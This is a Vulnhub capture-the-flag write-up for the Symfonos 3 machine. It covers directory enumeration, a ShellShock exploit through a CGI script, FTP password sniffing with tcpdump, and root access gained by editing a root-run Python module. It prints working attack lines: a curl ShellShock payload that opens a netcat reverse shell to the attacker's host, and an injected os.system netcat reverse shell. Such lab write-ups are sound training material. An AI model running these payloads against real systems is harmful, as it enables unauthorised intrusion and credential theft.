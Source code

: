 ```yaml
---
layout:     post
title:      "Vulnhub - Symfonos 3"
subtitle:   "Write-Up"
date:       2019-08-04 
author:     "d4mianwayne"
permalink: /:title/
category: Vulnhub
---
```


This is a walkthrough of Symfonos 3 which is 3rd machine in Symfonod series.

# Nmap

Let's scan the network and start working on the machine right away. Using `nmap -sV -sC -A -p- -T5 192.168.43.22` shows that we have FTP, SSH and HTTP.

![](/img/symfonos3/nmap.png)

# HTTP Enumeration

This was kind of time consuming since it involves lots of nested directory busting, I mostly use gobutser so with some bash scripting I automated the scan by updating the script with every finding. 
My strategy for that was to copy evry dictionary/wordlists into a single directory and using the bash we used it to find the directories. I used **dirbuster** and **dirb** wordlists only.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22 -w "$i" | grep Status: 
done
```

First, I found `gate`, then `cerberus` after that `tartarus`. After that I tried again with the script this time we got more than 4 hits:-

```
=============================================================== 
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.43.22/gate/cerberus/tartarus/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/08/04 01:28:56 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/charon (Status: 301)
/hermes (Status: 301)
/research (Status: 200)
===============================================================
```
 
But somehow `research` was a rabbit hole, perhaps a wild goose chase for us. Then, I tried again with `cgi-bin` from previous findings. Now directory busting to the `http://192.168.43.22/cgi-bin`, I found a hit at `underworld`. PS: In case you don't know about greek mythology, underworld is home of the god **Hades**.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22/cgi-bin -w "$i" | grep Status: 
done
```

***
root@kali:/usr/share/wordlists/dirb# ./new.sh
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/underworld (Status: 200)
*** 

![](/img/symfonos3/underworld.png)
There, we got the `underworld`, the real game begins from here.

# Reverse Shell and FTP Network Sniffing

From that page we can see that it's saying `uptime`, I tried to enumerate more but somehow none worked. I switched to some research on similar machines to get information about this thinking that it might have been some kind of task of a machine.
From that I found a machine from PentesterLab which has **kind of** vulnerability but after checking it I was confirmed that it was same. The vulnerability is named **ShellShock**. In this type of vulnerablity you have the pass the bash command as a User-Agent for that particular request. So, using the following command with the help of curl, we get a reverse shell on our host machine.

```
robin@oracle:~$ curl -A "() { :; }; /bin/bash -c 'nc 192.168.43.243 1337 -e /bin/sh'" http://192.168.43.22/cgi-bin/underworld
```

Once, we get reverse shell I found out we have privilge of cerberus, so from some basc enumeration I didn't found anything so I thought of using the `pspy` script which is useful for tracing the background proccesses. Using `pspy`  after using wget to grab it from server I found out there is a ftp server is running in the background. I thought of checking the directory too but permission denied. 
Now, I started grabbing the network dump using tcpdump since it ws available for usage, using `tcpdump -w ftplog.pcap -i lo`, the FTP server was runiing on the `lo` interface because the other one has our reverse shell connected to using shellshock. SInce, I first grabbed the `en0ps17` but I saw that our curl is making request to server. 

![](/img/symfonos3/pspy.png)

>Warning: Let the tcpdump run for 5-10 minutes so you can grab enough data to analyse.

I saved the file in `/tmp` folder and started a HTTP server using python `python -m SimpleHTTPServer 1234` and grabbed the `ftplog.pcap` right away from `http://192.168.43.22:1234`.

After opening it in wireshark and filtering out the packets for FTP only with `tcp.port == 21`, I got some packets with FTP service and following TCP Stream of that packet I found the user `hades` password.

![](/img/symfonos3/hades.png)

# Root 

Once you SSH into the system as user **hades** with the above password you'll find out that we have the same thing as user cerberus. So, the last option was to run the `pspy` again, doing that so I found that we have nothing more nothing less than previous scan. I started trying again in ftpclient, this time we can access the folder which has a python script which is running the server by the **root** itself. So, there is **more to see than meets the eye**. 

After analysing the script I found that script is using a module named `ftplib.py` in `/opt/ftpclient` which is running as root, as from my previous experience I thought that we need to edit the module file itself to get root privilges or anything to get moving. I checked permission and it turns out we can edit it since the user `hades` ia belong to group `gods`. 

![](/img/symfonos3/ftpclient.png)

Now, I added a line `os.system("nc 192.168.43.243 4444 -e /bin/bash)` in the file so that once the script will be run our reverse shell gets executed giving a root shell. So, once done I started my listener and start analysing the process again, once that script runs we have the shell as **root**.
Hence, the flag. 

![](/img/symfomos3/root.png)

Thanks to [@zayotic](https://twitter.com/zayotic) for making this wonderful machine.
